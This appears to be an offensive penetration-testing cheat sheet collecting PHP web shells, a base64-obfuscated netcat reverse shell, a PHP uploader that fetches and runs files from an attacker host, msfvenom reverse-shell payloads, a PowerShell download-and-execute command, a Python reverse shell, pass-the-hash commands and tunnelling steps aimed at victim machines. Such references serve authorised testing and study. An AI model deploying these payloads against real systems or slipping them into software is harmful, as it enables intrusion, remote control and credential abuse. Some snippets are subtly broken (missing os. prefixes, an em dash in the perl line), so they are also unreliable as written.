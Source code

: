 # PHP


```php
<?php system($_GET["cmd"]); ?>

<?php echo shell_exec($_GET["cmd"]); ?>

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 3333 >/tmp/f');?>

<?php exec(base64_decode('cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTxhdHRhY2tlcl9pcD4gPGF0dGFja2VyX3BvcnQ+ID4vdG1wL2Y=')); ?>

  ```

## Secure, simple PHP shell to load and execute code;

```php
<?php
if (isset($_REQUEST['fupload']))
{
	file_put_contents($_REQUEST['fupload'], file_get_contents("http://<ip>:8000/"  .  $_REQUEST['fupload']));
};
if(isset($_REQUEST['fexec']))
{
echo  "<pre>"  .  shell_exec($_REQUEST['fexec']) .  "</pre>";
};
?>
```

  

## Start the listener on the attacker machine;

```bash
nc -lvp 1234
```
  

## Call the script and get the shell;
```
http://<victim ip>/catch.php?fexec=nc.exe <attacker_ip> 1234 -e cmd.exe
```

  
  

------------------------------------------------------------------------------------------------------------------------------

  

#  Msfvenom

  

##Listing payloads (spesific);
```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

  

# .exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=1337 -f exe > asd.exe

 
# .aspx
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f aspx > asd.aspx

 
#.jsp

 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=3333 -f raw > asd.jsp

#.war

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=3333 -f war > shell.war

  
#python 
msfvenom -p windows/shell_bind_tcp LPORT=9001  -f py -e x86/shikata_ga_nai

  

# .Achat server 

msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://<ip>:8000/rev.ps1')\"" -e x86/unicode_mixed -b '\x00' BufferRegister=EAX -f python

```

----------------------------------------------------------------------------------------------------------

  

# reverse shell cheatsheet

  

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

  

----------------------------------------------------------------------------------------------------------

  

# Upgrading simple shells to fully interactive TTYs

  

##With bash;
```
/bin/bash -i
```
  

##With sh;
```
/bin/sh -i
```
##With echo;  
```  
echo 'os.system('/bin/bash')'
```
  
##With python;
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/sh")'

python3 -c 'import pty; pty.spawn("/bin/sh")'
```
  
  

##With mawk;
```
mawk 'BEGIN {system("/bin/sh")}'
```
  
  

##With perl;
```
perl —e 'exec "/bin/sh";'

 ``` 
 
##shell with TAB and autocomplete;
```
CTRL +Z

stty raw -echo

fg + [Enter x 2]
```

## with SSH

```
ssh user@<IP> -t bash
```
  
 ### Python reverse shell 
```py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",9002))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

```

  

----------------------------------------------------------------------------------------------------------

# psexec


```
 psexec.py host/user@<ip>
```
  
  ## Using NTLM hash we will get admin shell
```bash
  pth-winexe -U hostname/user//<ip> cmd.exe

  pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //<ip> cmd

  ```
  
  

# SSH Tunnel

 
Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH

 
`./chisel_1.5.2_linux_amd64 server --port 9002 --reverse `

  

on windows(victim) 
`PS badrobot:\> ./chisel.exe client <attacker ip>:9002 R:910:127.0.0.1:910`

 On Attacker machine 
`ssh -L 127.0.0.1:9002:127.0.0.1:8082 user@<victim ip>`

  
  
  

EvilRM

  
```bash 
./evil-winrm.rb -u <user> -p <passwd> -i <ip>

  ```

